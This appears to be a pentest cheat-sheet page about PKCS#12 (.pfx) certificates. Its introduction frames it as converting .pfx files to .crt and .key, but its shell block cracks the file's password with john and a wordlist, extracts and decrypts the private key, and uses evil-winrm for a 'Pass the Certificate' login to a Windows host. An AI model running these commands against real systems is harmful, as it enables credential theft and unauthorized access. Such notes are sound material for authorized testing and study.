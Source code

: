 The `.pfx` file, which is in a PKCS#12 format, contains the *SSL certificate (public keys)* and the corresponding *private keys*. Sometimes, you might have to import the certificate and private keys separately in an unencrypted plain text format to use it on another system. This topic provides instructions on how to *convert the .pfx file to .crt and .key files*.

```sh
# Crack pfx file hash
pfx2john file.pfx > pfx_hash
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt --force

# Extracting the encrypted key file
openssl pkcs12 -in file.pfx -nocerts -out private-enc.key

# Extracting the certificate
openssl pkcs12 -in file.pfx -clcerts -nokeys -out public.crt

# Decrypting the key file
openssl rsa -in private-enc.key -out private.key

# Perform Pass the Certificate
evil-winrm -i <IP> -k private.key -c public.crt -S -r [domain_name]

## -r not necessary; -S for SSL encryption
```